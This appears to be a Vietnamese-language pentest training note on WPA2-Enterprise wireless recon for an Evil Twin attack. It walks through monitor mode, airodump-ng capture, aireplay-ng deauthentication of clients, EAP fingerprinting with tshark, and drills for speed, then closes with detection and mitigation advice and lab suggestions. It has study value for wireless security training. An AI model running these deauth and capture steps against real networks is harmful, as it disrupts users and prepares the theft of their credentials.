

> **Prerequisites**: [[01-8021x-eap-radius-architecture|01. 802.1X/EAP/RADIUS Architecture]] · [[02-eap-methods-deep-dive|02. EAP Methods Deep-Dive]]
> **Objectives**:
> - Thiết lập WiFi adapter ở monitor mode đúng cách
> - Enumerate WPA-Enterprise APs và clients với airodump-ng
> - Capture EAP handshake và xác định EAP method qua Wireshark
> - Extract thông tin cần thiết để chuẩn bị Evil Twin attack

---

## Điều kiện khai thác

> [!note] Điều kiện bắt buộc
> - WiFi adapter hỗ trợ monitor mode và packet injection (Alfa AWUS036ACH, AWUS036NH, hoặc tương đương)
> - Driver đúng — `airmon-ng check` để verify
> - Target trong wireless range (distance tùy adapter và antenna)
> - Không cần credentials — đây là passive recon phase

> [!tip] Adapter quan trọng nhất
> Không phải mọi WiFi card đều support monitor mode. Trong lab local VM, cần USB WiFi adapter pass-through vào VM, không dùng built-in card của host.

---

## Cơ chế tấn công

### Tại sao Recon quan trọng với WPA-Enterprise?

Khác với WPA2-Personal, WPA-Enterprise attack cần thêm thông tin trước khi bắt đầu:

- **BSSID và channel** của target AP → để setup Evil Twin chính xác trên cùng channel
- **ESSID** → phải clone đúng tên
- **EAP method** → quyết định attack vector (PEAP vs TTLS vs TLS)
- **Client MAC addresses** → để deauth targeted clients
- **Inner identity format** → username format để dùng sau khi capture

Thiếu bất kỳ thông tin nào → Evil Twin setup không chính xác → clients không kết nối.

### Monitor Mode và Packet Capture

Trong normal operation, WiFi card chỉ nhận frames dành cho nó (MAC filter ở hardware level). **Monitor mode** tắt filter này — card capture TẤT CẢ frames trong không khí, bao gồm frames giữa AP và clients khác.

---

## Quy trình tấn công

**Môi trường giả định**: Kali Linux attacker, USB WiFi adapter `wlan0`, target network "CorpWifi".

**Bước 1 — Kill interfering processes**

```bash
sudo airmon-ng check kill
```

> **Expected output**: Danh sách processes bị kill (NetworkManager, wpa_supplicant...). Nếu không kill → airodump-ng bị interference.

**Bước 2 — Enable monitor mode**

```bash
sudo airmon-ng start wlan0
# Hoặc manual:
sudo ip link set wlan0 down
sudo iw wlan0 set monitor control
sudo ip link set wlan0 up
```

> **Expected output**: `monitor mode vif enabled for [phy0]wlan0 on [phy0]wlan0mon`. Interface mới tên `wlan0mon` được tạo.

**Bước 3 — Survey toàn bộ area**

```bash
sudo airodump-ng wlan0mon
```

> **Expected output**: Bảng gồm các cột BSSID, PWR, Beacons, #Data, CH, MB, ENC, CIPHER, AUTH, ESSID. Tìm cột AUTH = **MGT** (Management — WPA Enterprise). Ghi lại BSSID và CH của target.

**Bước 4 — Focus capture vào target AP**

```bash
sudo airodump-ng -c <CHANNEL> --bssid <BSSID> -w /tmp/corp_capture wlan0mon
# Ví dụ:
sudo airodump-ng -c 6 --bssid A0:B1:C2:D3:E4:F5 -w /tmp/corp_capture wlan0mon
```

> **Expected output**: Chỉ hiển thị target AP và các clients đang kết nối (cột STATION). Các file capture được save: `/tmp/corp_capture-01.cap`, `.csv`, `.kismet.netxml`.

**Bước 5 — Trigger EAP exchange** (nếu chưa có clients đang authenticate)

Nếu tất cả clients đã authenticated và đang idle, cần trigger re-authentication:

```bash
# Gửi deauth broadcast (tất cả clients) — NOisy
sudo aireplay-ng -0 5 -a <BSSID> wlan0mon

# Hoặc targeted (ít noisy hơn)
sudo aireplay-ng -0 5 -a <BSSID> -c <CLIENT_MAC> wlan0mon
```

> **Expected output**: Clients disconnect rồi re-authenticate → EAP handshake mới được capture trong file .cap.

**Bước 6 — Phân tích EAP method trong Wireshark**

```bash
wireshark /tmp/corp_capture-01.cap
```

Trong Wireshark:

```
Filter: eap
```

Tìm các packets quan trọng:

| Packet | Ý nghĩa |
|--------|---------|
| `EAP-Request, Identity` | AP yêu cầu identity |
| `EAP-Response, Identity` | Client trả lời (ghi lại outer identity) |
| `EAP-Request, Protected EAP (PEAP)` | AP đề xuất PEAP |
| `EAP-Request, EAP-TTLS` | AP đề xuất EAP-TTLS |
| `TLSv1.2 Record Layer: Handshake Protocol: Certificate` | Server cert trong TLS |

**Xác định EAP Type từ Wireshark**: Click vào EAP packet → `Extensible Authentication Protocol` → `Type: Protected EAP (25)` hoặc `Type: EAP-TTLS (21)`.

**Bước 7 — Extract thông tin quan trọng**

```bash
# Đọc file csv để lấy thông tin cấu trúc
cat /tmp/corp_capture-01.csv | grep -i "WPA.*MGT"

# Dùng tshark để extract EAP info nhanh
tshark -r /tmp/corp_capture-01.cap -Y "eap" -T fields \
    -e frame.number -e eap.type -e eap.identity
```

> **Expected output**: Danh sách EAP frames với type number và identity strings.

**Bước 8 — Ghi lại intelligence cho Evil Twin**

```
ESSID: CorpWifi
BSSID: A0:B1:C2:D3:E4:F5
Channel: 6
Auth: MGT (WPA2-Enterprise)
EAP Method: PEAP (Type 25)
Inner Method: MSCHAPv2 (từ Wireshark analysis)
Outer Identity: anonymous@corp.local
Client MACs: 00:11:22:33:44:55, AA:BB:CC:DD:EE:FF
```

---

## Biến thể & Bypass

### EAP Fingerprinting Tool (tự động)

```bash
# eap_spray hoặc airhammer có thể fingerprint tự động
# Dùng Python tool để tự động extract EAP type từ pcap:
tshark -r capture.cap -Y "eap.type" -T fields -e eap.type | sort | uniq -c
# 25 = PEAP, 21 = TTLS, 13 = TLS, 52 = PWD
```

### Passive Capture (không deauth)

Nếu engagement yêu cầu stealth cao, không gửi deauth mà chỉ passive capture. Thời gian lâu hơn nhưng không gây disruption:

```bash
# Chỉ capture, không gửi bất kỳ frame nào
sudo airodump-ng -c 6 --bssid <BSSID> -w /tmp/passive wlan0mon
# Đợi client disconnect/reconnect tự nhiên
```

### Wireshark Filter Cheatsheet cho EAP Analysis

```
eap                          -- tất cả EAP frames
eap.type == 25              -- chỉ PEAP frames
eap.type == 21              -- chỉ EAP-TTLS frames
eap.type == 13              -- chỉ EAP-TLS frames
ssl || tls                  -- TLS handshake (outer tunnel)
eap.identity                -- chỉ identity response frames
```

---

## Cây quyết định



---

## Command Cheatsheet

**Monitor Mode Setup**

```bash
# Kill interference
sudo airmon-ng check kill

# Enable monitor mode
sudo airmon-ng start wlan0

# Verify
iwconfig wlan0mon
# Expected: Mode:Monitor
```

**Network Survey**

```bash
# Survey tất cả networks
sudo airodump-ng wlan0mon

# Chỉ WPA Enterprise (filter MGT)
sudo airodump-ng wlan0mon --encrypt WPA | grep MGT

# Focus vào target
sudo airodump-ng -c <CH> --bssid <BSSID> -w /tmp/capture wlan0mon
```

**Trigger Re-authentication**

```bash
# Broadcast deauth (noisy)
sudo aireplay-ng -0 10 -a <BSSID> wlan0mon

# Targeted deauth (stealth)
sudo aireplay-ng -0 5 -a <BSSID> -c <CLIENT_MAC> wlan0mon
```

**EAP Analysis**

```bash
# Extract EAP types từ pcap
tshark -r capture.cap -Y "eap.type" -T fields -e eap.type | sort | uniq -c

# Extract identities
tshark -r capture.cap -Y "eap.identity" -T fields -e eap.identity

# Full EAP frames verbose
tshark -r capture.cap -Y "eap" -V 2>/dev/null | grep -E "Type:|Identity:"
```

---

## Daily Drill

**Thời gian**: 15–20 phút/ngày trong 7 ngày đầu.

**Drill 1 — Monitor mode muscle memory**
Mục tiêu: enable monitor mode và verify mà không cần nhìn cheatsheet.

```bash
sudo airmon-ng check kill
sudo airmon-ng start wlan0
iwconfig wlan0mon
sudo airodump-ng wlan0mon
```

Luyện cho đến khi: 4 commands này gõ liên tục trong dưới 20 giây.

**Drill 2 — EAP type identification**
Mục tiêu: nhìn Wireshark và xác định EAP method trong dưới 10 giây.

```bash
tshark -r <any_capture.cap> -Y "eap.type" -T fields -e eap.type | sort | uniq -c
# 25 → PEAP, 21 → TTLS, 13 → TLS, 52 → PWD
```

Luyện cho đến khi: nhìn số là biết ngay method, không cần lookup.

**Drill 3 — Full recon flow**
Mục tiêu: từ không gì đến capture đầy đủ với intelligence notes trong dưới 5 phút.

```bash
# Timer: bắt đầu đếm
sudo airmon-ng check kill && sudo airmon-ng start wlan0
sudo airodump-ng wlan0mon                      # 30 giây survey
sudo airodump-ng -c <CH> --bssid <BSSID> -w /tmp/recon wlan0mon  # 2 phút capture
sudo aireplay-ng -0 5 -a <BSSID> wlan0mon     # trigger auth nếu cần
tshark -r /tmp/recon-01.cap -Y "eap.type" -T fields -e eap.type | sort | uniq -c
# Ghi intelligence: ESSID, BSSID, CH, EAP method, client MACs
```

Luyện cho đến khi: có đầy đủ intelligence notes trong dưới 5 phút từ lúc bắt đầu.

---

## Phát hiện & Phòng thủ

> [!warning] Detection Indicators
> **Deauthentication flood**: Nhiều management frames 802.11 type Deauthentication từ unknown BSSID → Wireless IDS alert.
> **Monitor mode detection**: Một số enterprise WIDS có thể detect cards ở monitor mode qua timing anomalies.
> **Rogue AP detection**: Sau bước recon, nếu attack bắt đầu → Evil Twin AP sẽ visible với cùng SSID → WIDS alert "duplicate SSID".
> **SIEM rule**: Alert khi cùng SSID xuất hiện từ 2 BSSID khác nhau trên cùng channel.

> [!note] Mitigation
> - Triển khai Wireless Intrusion Detection System (WIDS/WIPS) — Cisco Prime, Aruba RAPIDS, Ruckus SmartZone
> - Monitor cho duplicate SSIDs và unauthorized BSSIDs
> - Enforce Management Frame Protection (802.11w) — ngăn deauth spoofing
> - Alert trên excessive deauthentication frames

---

## Lab Thực hành

| Platform | Machine/Module | Tại sao phù hợp |
|----------|---------------|----------------|
| HTB Academy | **Attacking WPA/WPA2 Wi-Fi Networks** | Dedicated wireless module với airodump-ng labs |
| HTB Academy | **Wi-Fi Penetration Testing Tools & Techniques** | Comprehensive wireless tools coverage |
| Local VM | Kali + hostapd-wpe + victim VM | Full wireless lab environment |
| TryHackMe | **Wifi Hacking 101** | Basic wireless recon concepts |

---

## Field Manual Entry

> [!abstract] Wireless Recon (Enterprise) — Quick Reference
> **Điều kiện**: WiFi adapter + monitor mode support + MGT network trong range
> **Lệnh nhanh**: `sudo airmon-ng check kill && airmon-ng start wlan0 && airodump-ng wlan0mon`
> **Full flow**: `kill processes` → `monitor mode` → `survey` → `focus capture` → `deauth trigger` → `Wireshark EAP analysis`
> **Look for**: AUTH=MGT trong airodump; EAP Type 25/21/13 trong Wireshark
> **Ref**: [[03-wireless-recon-eap-fingerprinting|03. Wireless Recon & EAP Fingerprinting]]
